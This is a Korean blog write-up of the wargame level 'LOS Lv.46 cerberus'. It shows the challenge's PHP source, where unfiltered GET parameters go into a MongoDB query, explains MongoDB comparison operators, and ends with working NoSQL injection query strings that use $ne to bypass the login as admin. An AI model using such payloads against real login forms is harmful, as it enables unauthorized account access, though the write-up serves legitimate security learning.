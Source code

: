 ```yaml
---
title : "LOS Lv.46 cerberus"
excerpt : "mongodb NOSQL Injection"
toc: true
toc_sticky: true
categories :
  - rubiya
tags :
  - NOSQLi
---
```


## cerberus
```php
query : {"id":null,"pw":null}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

## Solution
```
이번엔 monngodb임. 
mongodb는 여태했던 sql문을 쓰지 않음.

따라서 NOSQL(Non SQL) Injection을 사용해야 함.
```
<a href="https://www.netsparker.com/blog/web-security/what-is-nosql-injection/" target="_blank">https://www.netsparker.com/blog/web-security/what-is-nosql-injection/</a>  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" target="_blank">NOSQL Cheat Sheet</a>  
<a href="https://doorbw.tistory.com/38?category=677965" target="_blank">MONGODB 설명</a>
```
위 문제에서 입력값을 넣어주면 double quotes로 감싸져있고,

single quote 등을 입력하면 escape 처리를 해버림.

그래서 배열 형태로 입력해줘야함.
```
NOSQL 기본 형태는 다음과 같음.
```
{"id":{"$ne": 1},"pw":{"$ne": 1}}  

-> $ne 연산자는 not equal로 id와 pw 값이 1과 다르므로 true가 되서
   모든 값을 가져올 것임.
```
연산자가 매우 중요한 듯함.
```
$eq : == 

$gt : >

$gte : >=

$lt : <

$lte : <=

$ne : !=

$in : 주어진 배열에 속하는값

$nin : 주어진 배열에 속하지 않는 값 
```
```
?id[$ne]=1&pw[$ne]=1
??id=admin&pw[$ne]=1
```